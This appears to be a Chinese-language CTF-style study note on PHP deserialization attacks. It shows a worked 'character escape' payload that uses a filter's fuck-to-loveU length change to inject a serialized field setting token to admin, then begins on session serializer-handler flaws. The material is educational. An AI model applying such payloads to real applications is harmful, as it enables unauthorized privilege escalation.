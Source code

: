 
### 字符逃逸

下面代码会把四个字符的fuck替换成5个字符的loveU，这就有问题

对于反序列化：只要后面正常闭合，**即使分号后有其他代码，也可以用var_dump打印出反序列化的结果**。

```
O:7:"message":1:{s:4:"from";}aaaaa
```

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669795927714-6c3f96dd-92cd-4347-99cf-ed0d9bb33a18.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669795864874-470d8ef2-4c03-4627-8103-b73438c82d68.png)

#### 分析

- 首先`$msg = new message("fuck","b","c");`，得到下面结果

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669796190523-79ed9561-5047-4624-b409-988a6154694e.png)

- 因为要构造把user改为admin，先改一下

O:7:"message":4:{s:4:"from";s:4:"fuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}

- 构造期望的payload，`$msg = new message('fuck";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:4:"user";}',"b","c");`
- 输出替换后序列化的结构，可以看到，此时s=66

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669796490985-fe11716b-f85d-4841-8198-718e0ee7017c.png)

- 要构造正确的字符串长度，因为上面红色payload的长度为62。有一个fuck，替换成一个loveu，就占一位，所以需要62个fuck，这样正好是62x4+62=62*5。
- 举个简单的例子：

```php
//15 fuckfuckfucks:1
//15 loveuloveuloveus:1 
这样在前面闭合好之后，s就成功被赋值为了1
```

#### payoload

```php
   $msg1 = new message('fuck/*多少个fuck取决于后面字符串的长度*/";s:3:"msg";s:1:"b";s:2:"to";s:1:"c";s:5:"token";s:5:"admin";}','b','c');
```

### Session序列化选择器漏洞

#### 0x01 知识点



**session_start：**

https://www.php.net/manual/zh/function.session-start.php

当会话自动开始或者通过 **session_start()** 手动开始的时候， PHP 内部会调用会话管理器的 open 和 read 回调函数。 会话管理器可能是 PHP 默认的， 也可能是扩展提供的（SQLite 或者 Memcached 扩展）， 也可能是通过 [session_set_save_handler()](https://www.php.net/manual/zh/function.session-set-save-handler.php) 设定的用户自定义会话管理器。 通过 read 回调函数返回的现有会话数据（使用特殊的序列化格式存储）， **PHP 会自动反序列化数据并且填充 $_SESSION 超级全局变量**
